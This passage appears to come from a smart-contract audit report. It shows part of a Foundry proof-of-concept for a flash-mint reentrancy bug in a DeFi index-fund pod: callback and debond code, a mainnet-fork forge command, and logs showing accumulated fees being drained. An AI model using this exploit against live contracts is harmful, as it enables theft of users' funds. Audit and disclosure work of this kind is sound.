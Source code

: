 ```solidity
        uint8[] memory _percentages = new uint8[](1);
        indexFund.debond(IERC20(address(indexFund)).balanceOf(address(this)),_tokens, _percentages);

        uint256 peasAfter = IERC20(peas).balanceOf(address(this));
        uint256 PairedBalanceAfter = IERC20(indexFund.PAIRED_LP_TOKEN()).balanceOf(address(this));
        console.log("initial peas : ");
        console.log(peasBefore);
        console.log("after peas : ");
        console.log(peasAfter);
        console.log("initial paired : ");
        console.log(initialPairedBalance);
        console.log("after paired : ");
        console.log(PairedBalanceAfter);
    }

    function callback(bytes calldata data) external {
        (address indexFund, address stakingPool, uint256 lpAmount) = abi.decode(data, (address, address, uint256));
        address _podV2Pool = IStakingPoolToken(stakingPool).stakingToken();
        IERC20(_podV2Pool).approve(stakingPool, lpAmount);
        IStakingPoolToken(stakingPool).stake(address(this), lpAmount);
    }
```

Run the test :

```
forge test --match-test test_ReentrancyFlashMint --fork-url https://eth-mainnet.alchemyapi.io/v2/API_KEY
```

Log output :

```
Logs:
  initial peas :
  1000000000000001000
  after peas :
  49853312988018152980

  initial paired :
  1000000000000000000
  after paired :
  990372833280884832
```

Considering that `_processPreSwapFeesAndSwap` will not be triggered until a certain minimum amount of fees has accumulated and a swap delay is applied, it is highly likely that a significant amount of fees will be available in the pod at a given time for an attacker to steal.

## Recommendations
